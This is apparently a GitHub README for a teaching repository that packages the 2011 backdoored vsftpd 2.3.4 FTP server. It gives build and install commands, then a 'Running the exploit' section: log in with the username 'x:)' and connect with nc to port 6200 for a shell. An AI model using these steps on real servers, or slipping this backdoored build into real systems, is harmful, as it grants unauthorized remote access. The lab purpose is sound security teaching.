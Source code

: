 # vsftpd-2.3.4
Preserved here for my students, review this for hints on how to remotely access the final project server.

This is a backdoored version of vsftpd which has been packaged and configured for the convience of performing an example backdoor into a system.
vsftpd is an FTP server which was created by Chris Evans and is available at vsftpd.beasts.org, this repo uses version 2.3.4.

This backdoor which was maliciously added to the archive was introduced into the vsftpd-2.3.4 2011 
but has since been removed, thus the reason for this repository. 

The source for vsftp was https://security.appspot.com/downloads/vsftpd-2.3.4.tar.gz and the diff used in this repo was taken from http://pastebin.com/AetT9sS5.

## Changes
* vsftpd.conf to allow remote user login.
* Make file to work with patch.
* Core code, which now includes patch.

## Requirements
These installation details are for ubuntu but should be able to be adapted for most distros.

`apt-get install build-essential`

`apt-get install libpam0g-dev`

## Installation
Create users for use with FTP. May not have to do this if you previously used apt-get for vsftpd.

`install -v -d -m 0755 /var/ftp/empty`

`install -v -d -m 0755 /home/ftp`

`groupadd -g 47 vsftpd`

`groupadd -g 45 ftp`  

`useradd -c "vsftpd User"  -d /dev/null -g vsftpd -s /bin/false -u 47 vsftpd`

`useradd -c anonymous_user -d /home/ftp -g ftp    -s /bin/false -u 45 ftp`

Use make to create the executable.

`make`

Install vsftpd and its modified configurations.

`install -v -m 755 vsftpd        /usr/sbin/vsftpd`

`install -v -m 644 vsftpd.8      /usr/share/man/man8`

`install -v -m 644 vsftpd.conf.5 /usr/share/man/man5` 

`install -v -m 644 vsftpd.conf   /etc`

## Running the exploit

1. On one node run `vsftpd`

2. On another node connected to the network login to the server by using: `ftp <server address>`

3. Once connected use the username 'x:)' with any password.

4. Once the terminal hangs open another terminal and use `nc <server address> 6200` and you're in!


